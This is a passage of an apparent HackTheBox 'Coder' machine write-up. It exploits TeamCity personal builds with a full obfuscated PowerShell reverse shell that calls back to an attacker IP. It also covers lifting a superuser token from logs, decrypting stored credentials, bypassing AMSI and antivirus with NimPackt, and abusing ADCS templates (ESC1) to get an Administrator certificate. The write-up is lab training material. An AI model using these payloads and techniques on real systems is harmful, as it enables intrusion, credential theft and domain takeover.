

I modified the script to say `Hello, Abraxas!` and generated a patch file.

```bash
❯ micro hello_world.ps1
❯ cat hello_world.ps1
#Simple repo test for Teamcity pipeline
write-host "Hello, Abraxas!"
❯ git diff > test.patch
❯ cat test.patch
diff --git a/hello_world.ps1 b/hello_world.ps1
index 09724d2..ecc0120 100644
--- a/hello_world.ps1
+++ b/hello_world.ps1
@@ -1,2 +1,2 @@
 #Simple repo test for Teamcity pipeline
-write-host "Hello, World!"
+write-host "Hello, Abraxas!"
```

After uploading the patch file through the personal build, the log now prints the script output as `Hello, Abraxas!`.



### Shell as svc_teamcity

Subsequently, I attempted a standard reverse shell payload, but I got no response, possibly due to AMSI or Defender. In an attempt to bypass that, I used a powershell [obfuscated payload](https://gist.github.com/AbraXa5/81ec18193f1247628fa90ee9bbfe2f1f), which gave me a shell as the `svc_teamcity` user on my local netcat listener.

```bash
❯ git diff > rev_shell.patch
❯ cat rev_shell.patch
diff --git a/hello_world.ps1 b/hello_world.ps1
index 09724d2..aab74af 100644
--- a/hello_world.ps1
+++ b/hello_world.ps1
@@ -1,2 +1,18 @@
-#Simple repo test for Teamcity pipeline
-write-host "Hello, World!"
+Set-Alias -Name K -Value Out-String
+Set-Alias -Name nothingHere -Value iex
+$BT = New-Object "S`y`stem.Net.Sockets.T`CPCl`ient"('10.10.14.49',9005);
+$replace = $BT.GetStream();
+[byte[]]$B = 0..(32768*2-1)|%{0};
+$B = ([text.encoding]::UTF8).GetBytes("(c) Microsoft Corporation. All rights reserved.`n`n")
+$replace.Write($B,0,$B.Length)
+$B = ([text.encoding]::ASCII).GetBytes((Get-Location).Path + '>')
+$replace.Write($B,0,$B.Length)
+[byte[]]$int = 0..(10000+55535)|%{0};
+while(($i = $replace.Read($int, 0, $int.Length)) -ne 0){;
+$ROM = [text.encoding]::ASCII.GetString($int,0, $i);
+$I = (nothingHere $ROM 2>&1 | K );
+$I2  = $I + (pwd).Path + '> ';
+$U = [text.encoding]::ASCII.GetBytes($I2);
+$replace.Write($U,0,$U.Length);
+$replace.Flush()};
+$BT.Close()
```



```bash
❯ rlwrap nc -nlvp 9005
listening on [any] 9005 ...
connect to [10.10.14.49] from (UNKNOWN) [10.129.229.190] 59269
(c) Microsoft Corporation. All rights reserved.

C:\TeamCity\buildAgent\work\74c2f03019966b3e>whoami
coder\svc_teamcity
C:\TeamCity\buildAgent\work\74c2f03019966b3e>

```

---

## Horizontal Privilege Escalation

---

### TeamCity Super User

I couldn't find anything significant as `svc_teamcity`, but I did notice the presence of a [SuperUser](https://www.jetbrains.com/help/teamcity/2022.10/super-user.html) in TeamCity's documentation. SuperUser login can be found at `https://teamcity-dev.coder.htb/login.html?super=1`.



The authentication token for the Super User can be found in TeamCity's logs, specifically under `C:\TeamCity\logs`.

```bash
C:\TeamCity\logs> findstr /spin /c:"Super user authentication token" *.*
--snip--
--snip--
teamcity-winservice.log:5649:[2023-12-15 19:14:27,839] console                           [Info] [TeamCity] Super user authentication token: 4131629497269471073 (use empty username with the token as the password to access the server)
teamcity-winservice.log:5652:[2023-12-15 19:21:04,376] console                           [Info] [TeamCity] Super user authentication token: 4131629497269471073 (use empty username with the token as the password to access the server)
--snip--
```

Logging as Super User, I can see the ADCS_Reporting project.



Under the [changes tab](https://www.jetbrains.com/help/teamcity/viewing-user-changes-in-builds.html), I found a diff containing two new files, `key.key` and `enc.txt` in the ADCS_Reporting.



Unfortunately, I cannot view or download the two new files.



<!--  -->

I decided to go back to the shell as `svc_teamcity` to look for the files in the diff in the system directory. Found the TeamCity directory at `C:\ProgramData\JetBrains\TeamCity`. The changes directory in under system contains a bunch of patch files

```powershell
C:\ProgramData\JetBrains\TeamCity> ls


    Directory: C:\ProgramData\JetBrains\TeamCity


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       12/13/2023  11:00 PM                config
d-----        11/3/2022   3:08 PM                lib
d-----        11/3/2022   3:09 PM                plugins
d-----       12/13/2023  11:00 PM                system

C:\ProgramData\JetBrains\TeamCity> ls system\changes


    Directory: C:\ProgramData\JetBrains\TeamCity\system\changes


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        11/8/2022   2:18 PM           1707 101.changes.diff
-a----       12/13/2023  10:28 PM            236 201.changes.diff
-a----       12/13/2023  10:31 PM            236 202.changes.diff
-a----       12/13/2023  10:36 PM            977 203.changes.diff
-a----       12/13/2023  10:40 PM            977 204.changes.diff

```

The first patch file, `101.changes.diff` contains a diff for the three files I found before. The others relate to my reverse shell payload.

```powershell
C:\ProgramData\JetBrains\TeamCity\system\changes> cat 101.changes.diff
diff --git a/Get-ADCS_Report.ps1 b/Get-ADCS_Report.ps1
index d6515ce..a990b2e 100644
--- a/Get-ADCS_Report.ps1
+++ b/Get-ADCS_Report.ps1
@@ -77,11 +77,15 @@ Function script:send_mail {
     [string]

---snip---
---snip---

diff --git a/enc.txt b/enc.txt
new file mode 100644
index 0000000..d352634
--- /dev/null
+++ b/enc.txt
@@ -0,0 +1,2 @@
+76492d1116743f0423413b16050a5345MgB8AGoANABuADUAMgBwAHQAaQBoAFMAcQB5AGoAeABlAEQAZgBSAFUAaQBGAHcAPQA9AHwANABhADcANABmAGYAYgBiAGYANQAwAGUAYQBkAGMAMQBjADEANAAwADkAOQBmADcAYQBlADkAMwAxADYAMwBjAGYAYwA4AGYAMQA3ADcAMgAxADkAYQAyAGYAYQBlADAAOQA3ADIAYgBmAGQAN
+AA2AGMANQBlAGUAZQBhADEAZgAyAGQANQA3ADIAYwBjAGQAOQA1ADgAYgBjAGIANgBhAGMAZAA4ADYAMgBhADcAYQA0ADEAMgBiAGIAMwA5AGEAMwBhADAAZQBhADUANwBjAGQANQA1AGUAYgA2AGIANQA5AGQAZgBmADIAYwA0ADkAMgAxADAAMAA1ADgAMABhAA==
diff --git a/key.key b/key.key
new file mode 100644
index 0000000..a6285ed
--- /dev/null
+++ b/key.key
@@ -0,0 +1,32 @@
+144
+255
+52

---snip---
---snip---

+112
+20
+122
C:\ProgramData\JetBrains\TeamCity\system\changes>

```

### Decrypting credentials

To recover files in the patch, I initiated a new Git repository with two files with the same name and committed them. Subsequently, I copied over the patch file and applied it.

```bash
❯ touch enc.txt key.key
❯ git init -q
❯ git add .
❯ git commit -m 'init'
[main (root-commit) a82b82a] init
 2 files changed, 0 insertions(+), 0 deletions(-)
 create mode 100644 enc.txt
 create mode 100644 key.key
❯ cp ../creds.patch .
❯ patch -i creds.patch
patching file enc.txt
patching file key.key
```

I was able to decrypt the credential using powershell. Considering the sole other user with a directory under `C:\Users` is `e.black`, I presume these credentials belong to them.

```powershell
❯ $user = 'coder.htb\e.black'
❯ $encrypted = gc .\enc.txt
❯ $key = gc .\key.key
❯ $secureObject = ConvertTo-SecureString -String $encrypted -Key $key
❯ $creds = New-Object System.management.Automation.PSCredential($user, $secureObject)
❯ $creds.GetNetworkCredential() | fl

UserName       : e.black
Password       : ypOSJXPqlDOxxbQSfEERy300
SecurePassword : System.Security.SecureString
Domain         : coder.htb
```

It can also be done using `InteropServices`.

```powershell
❯ $decrypted = [System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($secureObject)
❯ $decrypted = [System.Runtime.InteropServices.Marshal]::PtrToStringAuto($decrypted)
❯ $decrypted
ypOSJXPqlDOxxbQSfEERy300
```

I was successfully able to authenticate as E.Black with the new password over SMB and WinRM

```bash
❯ nxc smb 10.129.229.190 -u 'e.black' -p 'ypOSJXPqlDOxxbQSfEERy300'
SMB         10.129.229.190  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:coder.htb) (signing:True) (SMBv1:False)
SMB         10.129.229.190  445    DC01             [+] coder.htb\e.black:ypOSJXPqlDOxxbQSfEERy300
❯ nxc smb 10.129.229.190 -u 'e.black' -p 'ypOSJXPqlDOxxbQSfEERy300' --shares
SMB         10.129.229.190  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:coder.htb) (signing:True) (SMBv1:False)
SMB         10.129.229.190  445    DC01             [+] coder.htb\e.black:ypOSJXPqlDOxxbQSfEERy300
SMB         10.129.229.190  445    DC01             [*] Enumerated shares
SMB         10.129.229.190  445    DC01             Share           Permissions     Remark
SMB         10.129.229.190  445    DC01             -----           -----------     ------
SMB         10.129.229.190  445    DC01             ADMIN$                          Remote Admin
SMB         10.129.229.190  445    DC01             C$                              Default share
SMB         10.129.229.190  445    DC01             Development     READ
SMB         10.129.229.190  445    DC01             IPC$            READ            Remote IPC
SMB         10.129.229.190  445    DC01             NETLOGON        READ            Logon server share
SMB         10.129.229.190  445    DC01             SYSVOL          READ            Logon server share
SMB         10.129.229.190  445    DC01             Users           READ


❯ nxc winrm 10.129.229.190 -u 'e.black' -p 'ypOSJXPqlDOxxbQSfEERy300'
SMB         10.129.229.190  5985   DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:coder.htb)
HTTP        10.129.229.190  5985   DC01             [*] http://10.129.229.190:5985/wsman
HTTP        10.129.229.190  5985   DC01             [+] coder.htb\e.black:ypOSJXPqlDOxxbQSfEERy300 (Pwn3d!)
```

Using `evil-winrm`, I got a shell as e.black.

```powershell
❯ evil-winrm -i 10.129.229.190 -u 'e.black' -p 'ypOSJXPqlDOxxbQSfEERy300'

Evil-WinRM shell v3.5

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\e.black\Documents> whoami
coder\e.black
*Evil-WinRM* PS C:\Users\e.black\Documents>
```

---

## Vertical Privilege Escalation

---

E.Black is part of the `Coder\PKI Admins` group. The group seems to be used for ADCS Certificate and Template Management.

```powershell
*Evil-WinRM* PS C:\Users\e.black\Documents> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                            Attributes
=========================================== ================ ============================================== ==================================================
Everyone                                    Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access     Alias            S-1-5-32-574                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
CODER\PKI Admins                            Group            S-1-5-21-2608251805-3526430372-1546376444-2101 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448
```

I can verify the presence of a Certificate Authority, `coder-DC01-CA` using certutil.

```powershell
*Evil-WinRM* PS C:\Users\e.black\Documents> certutil -dump
Entry 0: (Local)
  Name:                     "coder-DC01-CA"
---snip---
---snip---
```

Since, AMSI and ETW is active on the machine, I decided to enumerate vulnerable ADCS templates using certipy remotely. However, I couldn't find any.

```powershell
❯ certipy find -vulnerable -stdout -u e.black@coder.htb -p 'ypOSJXPqlDOxxbQSfEERy300' -dc-ip 10.129.229.190
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'coder-DC01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'coder-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'coder-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'coder-DC01-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : coder-DC01-CA
    DNS Name                            : dc01.coder.htb
    Certificate Subject                 : CN=coder-DC01-CA, DC=coder, DC=htb
    Certificate Serial Number           : 2180F0D10CFECB9840260D0730724BDF
    Certificate Validity Start          : 2022-06-29 03:51:44+00:00
    Certificate Validity End            : 2052-06-29 04:01:44+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : CODER.HTB\Administrators
      Access Rights
        ManageCertificates              : CODER.HTB\Administrators
                                          CODER.HTB\Domain Admins
                                          CODER.HTB\Enterprise Admins
        ManageCa                        : CODER.HTB\Administrators
                                          CODER.HTB\Domain Admins
                                          CODER.HTB\Enterprise Admins
        Enroll                          : CODER.HTB\Authenticated Users
Certificate Templates                   : [!] Could not find any certificate templates
```

### AV Bypass

As a side note I was able to bypass AV using [NimPackt](https://github.com/chvancooten/NimPackt-v1).

```bash
❯ docker run --rm -v `pwd`:/usr/src/np -w /usr/src/np chvancooten/nimbuild python3 NimPackt.py -e execute-assembly -i Certify.exe -S -v
WARNING: Shinject arguments (-r, -t, -E) will be ignored in 'execute-assembly' mode.
Encrypting binary to embed...
Prepared Nim source file.
Cross-compiling Nim binary for Windows (this may take a while)...
Compiled Nim binary to output/CertifyExecAssemblyNimPackt.exe!
SHA1 hash of file to use as IOC: e85a9914d89f31e36eefe62e19802ea5c79182b8
Go forth and make a Nimpackt that matters 😎
```

```powershell
*Evil-WinRM* PS C:\Users\e.black\Documents> .\CertifyExecAssemblyNimPackt.exe find /vulnerable
NimPackt
[*] AMSI disabled: true
[*] ETW disabled: true
[*] Executing shellycoat in local thread to unhook NTDLL...
[*] NtAllocateVirtualMemory: 0
[*] NtWriteVirtualMemory: 0
    \-- bytes written: 12287
[*] Executing assembly...

   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v1.0.0

---snip---
---snip---

[+] No Vulnerable Certificates Templates found!
```

### Abusing PKI Admins

I wasn't able to find any attack vectors here for a while, after looking at HackTheBox forums, I realized that, being a member of the PKI Admins, I have the permissions to manage and add templates. There's no reason why the added template couldn't be a vulnerable one that I can exploit.

After some google-fu I found [GoateePFE/ADCSTemplate](https://github.com/GoateePFE/ADCSTemplate) which can be used to easily manipulate certificates.

Initially, I tried

- Exporting two templates (SubCA and User) that when combined give me everything to exploit ESC1
- However it seems the newly created template wasn't supported by the CA

At first, I tried exporting two templates (SubCA and User) to combine their properties for ESC1 exploitation. However, it turned out the newly created template wasn't supported by the CA.

```bash
*Evil-WinRM* PS C:\Users\e.black\Documents> Export-ADCSTemplate -displayname "SubCA" > .\subca.json
*Evil-WinRM* PS C:\Users\e.black\Documents> Export-ADCSTemplate -displayname "User" > .\DU_perms.json
*Evil-WinRM* PS C:\Users\e.black\Documents> upload vuln.json
*Evil-WinRM* PS C:\Users\e.black\Documents> New-ADCSTemplate -DisplayName VulnTemplate -JSON (Get-Content .\vuln.json -Raw) -Identity "CODER.HTB\PKI Admins" -AutoEnroll -Publish
*Evil-WinRM* PS C:\Users\e.black\Documents> certutil -CATemplates
VulnTemplate: VulnTemplate -- Auto-Enroll: Access is denied.
---snip---
```

```bash
---Certipy-Output---
---snip--
    [!] Vulnerabilities
      ESC1                              : 'CODER.HTB\\PKI Admins' can enroll, enrollee supplies subject and template

```

```bash
❯ certipy req \
-u 'e.black' -p 'ypOSJXPqlDOxxbQSfEERy300' \
-ca 'coder-DC01-CA' -target coder.htb \
-upn Administrator@coder.htb -dns dc01.coder.htb -dc-ip 10.129.229.190 \
-template VulnTemplate
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[-] Got error while trying to request certificate: code: 0x80094800 - CERTSRV_E_UNSUPPORTED_CERT_TYPE - The requested certificate template is not supported by this CA.
[*] Request ID is 15
Would you like to save the private key? (y/N) y
[*] Saved private key to 15.key
[-] Failed to request certificate
```

I later realized that by having `EnrolleeSuppliesSubject` with SubCA, the `New-ADCSTemplate` parameters allowed me to manage additional permissions for the template:

- `-Identity` is utilized for permissioning the template.
- `-AutoEnroll` is employed to grant AutoEnroll to the specified identity.

This alone gives me access to a bunch of ADCS vulnerabilities.

```powershell
*Evil-WinRM* PS C:\Users\e.black\Documents> New-ADCSTemplate -DisplayName Abraxas -JSON (Export-ADCSTemplate -DisplayName "Subordinate Certification Authority") -publish -Identity "CODER.HTB\PKI Admins"
*Evil-WinRM* PS C:\Users\e.black\Documents> certutil -CATemplates
Abraxas: Abraxas -- Auto-Enroll: Access is denied.
---snip---
```

According the certipy, the newly added template is vulnerable to ESC1, ESC2, ESC3, ESC4.

```bash
❯ certipy find -vulnerable -stdout -u e.black@coder.htb -p 'ypOSJXPqlDOxxbQSfEERy300' -dc-ip 10.129.229.190
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 35 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 13 enabled certificate templates
[*] Trying to get CA configuration for 'coder-DC01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'coder-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'coder-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'coder-DC01-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : coder-DC01-CA
    DNS Name                            : dc01.coder.htb
    Certificate Subject                 : CN=coder-DC01-CA, DC=coder, DC=htb
    Certificate Serial Number           : 2180F0D10CFECB9840260D0730724BDF
    Certificate Validity Start          : 2022-06-29 03:51:44+00:00
    Certificate Validity End            : 2052-06-29 04:01:44+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : CODER.HTB\Administrators
      Access Rights
        ManageCertificates              : CODER.HTB\Administrators
                                          CODER.HTB\Domain Admins
                                          CODER.HTB\Enterprise Admins
        ManageCa                        : CODER.HTB\Administrators
                                          CODER.HTB\Domain Admins
                                          CODER.HTB\Enterprise Admins
        Enroll                          : CODER.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : Abraxas
    Display Name                        : Abraxas
    Certificate Authorities             : coder-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : True
    Any Purpose                         : True
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : None
    Private Key Flag                    : ExportableKey
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 5 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : CODER.HTB\PKI Admins
      Object Control Permissions
        Owner                           : CODER.HTB\Erron Black
        Full Control Principals         : CODER.HTB\Domain Admins
                                          CODER.HTB\Local System
                                          CODER.HTB\Enterprise Admins
        Write Owner Principals          : CODER.HTB\Domain Admins
                                          CODER.HTB\Local System
                                          CODER.HTB\Enterprise Admins
        Write Dacl Principals           : CODER.HTB\Domain Admins
                                          CODER.HTB\Local System
                                          CODER.HTB\Enterprise Admins
        Write Property Principals       : CODER.HTB\Domain Admins
                                          CODER.HTB\Local System
                                          CODER.HTB\Enterprise Admins
    [!] Vulnerabilities
      ESC1                              : 'CODER.HTB\\PKI Admins' can enroll, enrollee supplies subject and template allows client authentication
      ESC2                              : 'CODER.HTB\\PKI Admins' can enroll and template can be used for any purpose
      ESC3                              : 'CODER.HTB\\PKI Admins' can enroll and template has Certificate Request Agent EKU set
      ESC4                              : Template is owned by CODER.HTB\Erron Black


```

I can abuse the ESC1 vulnerability to request a certificate for Administrator.

```bash
❯ certipy req \
-u 'e.black' -p 'ypOSJXPqlDOxxbQSfEERy300' \
-ca 'coder-DC01-CA' -target coder.htb \
-upn Administrator@coder.htb -dns dc01.coder.htb -dc-ip 10.129.229.190 \
-template Abraxas
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 17
[*] Got certificate with multiple identifications
    UPN: 'Administrator@coder.htb'
    DNS Host Name: 'dc01.coder.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator_dc01.pfx'
```

Using certipy again, I can use the obtained certificate to get the hash for Administrator.

```bash
❯ _ ntpdate 10.129.229.190
[sudo] password for kali:
2023-12-15 03:53:33.525549 (+0530) +20092.093889 +/- 0.047332 10.129.229.190 s1 no-leap
CLOCK: time stepped by 20092.093889

❯ certipy auth -pfx administrator_dc01.pfx
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Found multiple identifications in certificate
[*] Please select one:
    [0] UPN: 'Administrator@coder.htb'
    [1] DNS Host Name: 'dc01.coder.htb'
> 0
